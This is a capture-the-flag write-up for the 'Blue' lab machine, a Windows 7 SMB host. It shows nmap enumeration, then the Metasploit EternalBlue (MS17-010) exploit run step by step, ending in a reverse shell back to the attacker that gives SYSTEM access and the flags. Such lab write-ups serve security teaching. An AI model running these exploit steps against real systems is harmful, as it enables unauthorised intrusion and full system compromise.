

---
search:
  exclude: true
---
# Blue Writeup

## Introduction :

Blue was an easy Windows box released back in July 2017. It features a vulnerability onto which the well-known exploit "EternalBlue" can be used. 

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nmap -sC -sV 10.10.10.40
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-15 21:24 CET
      Nmap scan report for 10.10.10.40
      Host is up (0.083s latency).
      Not shown: 991 closed ports
      PORT      STATE SERVICE      VERSION
      135/tcp   open  msrpc        Microsoft Windows RPC
      139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
      49152/tcp open  msrpc        Microsoft Windows RPC
      49153/tcp open  msrpc        Microsoft Windows RPC
      49154/tcp open  msrpc        Microsoft Windows RPC
      49155/tcp open  msrpc        Microsoft Windows RPC
      49156/tcp open  msrpc        Microsoft Windows RPC
      49157/tcp open  msrpc        Microsoft Windows RPC
      Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: mean: 2m15s, deviation: 2s, median: 2m14s
      | smb-os-discovery:
      |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
      |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
      |   Computer name: haris-PC
      |   NetBIOS computer name: HARIS-PC\x00
      |   Workgroup: WORKGROUP\x00
      |_  System time: 2019-11-15T20:28:09+00:00
      | smb-security-mode:
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2019-11-15T20:28:07
      |_  start_date: 2019-11-15T14:45:46
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 76.50 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan result picked up a combination of smb and Windows 7 SP1 7601 , this may ring a bell with the leaked NSA tool called "EternalBlue", which takes advantage of the vulnerability affecting SMBv1 which is now known to mishandle special packets from attackers, this CVE has been fixed with the MS17-010 patch. Let's see if it works on this box. 
    
    
      msf5 > search eternalblue
    
    Matching Modules
    ================
    
       #  Name                                           Disclosure Date  Rank     Check  Description
       -  ----                                           ---------------  ----     -----  -----------
       0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
       1  auxiliary/scanner/smb/smb_ms17_010                              normal   Yes    MS17-010 SMB RCE Detection
       2  exploit/windows/smb/doublepulsar_rce           2017-04-14       great    Yes    DOUBLEPULSAR Payload Execution and Neutralization
       3  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
       4  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
       5  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
    
    
    
    
    
      msf5 > use exploit/windows/smb/ms17_010_eternalblue
    msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
    
    Module options (exploit/windows/smb/ms17_010_eternalblue):
    
       Name           Current Setting  Required  Description
       ----           ---------------  --------  -----------
       RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
       RPORT          445              yes       The target port (TCP)
       SMBDomain      .                no        (Optional) The Windows domain to use for authentication
       SMBPass                         no        (Optional) The password for the specified username
       SMBUser                         no        (Optional) The username to authenticate as
       VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
       VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 7 and Server 2008 R2 (x64) All Service Packs
    
    
    msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
    RHOSTS => 10.10.10.40
    
    

## **Part 3 : The Root Access**

Let's see if we can exploit this machine using the EternalBlue metasploit module.
    
    
      msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
    RHOSTS => 10.10.10.40
    msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit
    
    [*] Started reverse TCP handler on 10.10.14.48:4444
    [+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.10.40:445 - Connecting to target for exploitation.
    [+] 10.10.10.40:445 - Connection established for exploitation.
    [+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
    [*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
    [*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
    [*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
    [+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
    [*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
    w[*] 10.10.10.40:445 - Starting non-paged pool grooming
    h[+] 10.10.10.40:445 - Sending SMBv2 buffers
    o[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 10.10.10.40:445 - Sending final SMBv2 buffers.
    [*] 10.10.10.40:445 - Sending last fragment of exploit packet!
    [*] 10.10.10.40:445 - Receiving response from exploit packet
    [+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 10.10.10.40:445 - Sending egg to corrupted connection.
    [*] 10.10.10.40:445 - Triggering free of corrupted buffer.
    [*] Command shell session 1 opened (10.10.14.48:4444 -> 10.10.10.40:49158) at 2019-11-15 21:59:26 +0100
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    
    C:\Windows\system32>whoami
    whoami
    nt authority\system
    

It spawned us an elevated privilege shell ! Now all we have to do is to print out the user and root flags. 
    
    
      C:\Users\haris\Desktop>more user.txt
    more user.txt
    4cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    C:\Users\Administrator\Desktop>more root.txt
    more root.txt
    ffXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Conclusion**

Here we can see the progress graph :

